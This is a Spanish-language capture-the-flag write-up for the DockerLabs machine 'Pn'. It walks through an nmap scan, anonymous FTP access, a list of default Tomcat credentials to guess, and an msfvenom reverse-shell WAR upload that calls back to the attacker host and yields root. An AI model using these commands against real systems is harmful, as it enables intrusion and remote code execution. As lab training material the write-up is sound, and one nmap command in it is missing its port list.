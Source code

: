 # Máquina -Pn

---------------------

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

Nos reporta que esta habilitado el login para**Anonymous** en el servicio **ftp**.

```shell
ftp 172.17.0.2
anonymous
---------------------
230 Login successful.
ftp> 
```

```shell
ls
------------
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```

Nos descargamos el **.txt** que hay con **get**:

```shell
get tomcat.txt
quit
cat tomcat.txt
---------------------------
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Es posible que **tomcat** sea el usuario que necesitaremos en el servicio que corre por el puerto **8080**.

--------------
## Explotación

Al hacer click en "**manager webapp**" nos aparece un panel de login en el navegador para poder acceder.

![Pasted image 20240419200751](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/925ef76e-65ea-48fb-b7dc-9717450b6804)

Probamos contraseñas por defecto para **tomcat**:

```
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

Las credenciales **tomcat:s3cr3t** nos dan resultado

Logramos acceder al panel de administración de **tomcat**. Ahora tenemos que conseguir acceso a la máquina, y lo podemos hacer mediante un paquete "**.war**" malicioso. Que nos devolverá una **Reverse shell**. Lo crearemos fácilmente con **msfvenom**:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o RevShell.war
```

Siendo la 172.17.0.1 la IP de nuestra máquina atacante y 443 el puerto que abriremos.
Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

En el panel de administración, vamos al apartado **WAR file to deploy**, seleccionamos nuestra **RevShell.war** y la subimos..

![Pasted image 20240419195659](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45f33359-5bbc-40ec-8a3a-95927315ddc6)

Hacemos click en el nuevo paquete que ya nos aparece arriba y nos devuelve la conexión a nuestra máquina atacante.

![Pasted image 20240419195923](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/691173fa-5721-4927-8497-b6c9e420d1b4)

Estamos dentro !

Y además como el usuario que corre el servicio es root, hemos logrado el nivel de privilegios máximo !

```shell
whoami
----------------
root
```
